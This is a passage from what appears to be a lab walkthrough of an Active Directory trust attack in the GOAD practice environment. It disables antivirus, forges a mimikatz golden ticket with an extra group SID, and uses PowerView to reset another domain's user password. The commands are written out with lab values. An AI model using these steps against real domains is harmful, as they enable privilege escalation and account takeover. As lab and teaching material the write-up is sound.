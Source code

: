 > By now i didn't found a nice way to do this from linux, but from windows it is pretty easy

- Connect as administrator on meereen, disable the antivrius to be able to use mimikatz and powerview
- Create the golden ticket with mimikatz matching the group kingsguard (RID 1130)

```
mimikatz # kerberos::golden /user:guard /domain:essos.local /sid:S-1-5-21-2203133648-1386395927-1390703624 /krbtgt:e58cf01ba6cc645da9f7ab1f28fc3934 /sids:S-1-5-21-1409754491-4246775990-3914137275-1130 /ptt
```

![trust_acl_mimi.png](/assets/blog/GOAD/trust_acl_mimi.png)

![trust_acl_golentgt.png](/assets/blog/GOAD/trust_acl_golentgt.png)

- And now use powerview to change stannis password

```
Import-Module .\powerview.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity stannis.baratheon -AccountPassword $SecPassword -Domain sevenkingdoms.local
```

![trust_acl_changepassword.png](/assets/blog/GOAD/trust_acl_changepassword.png)

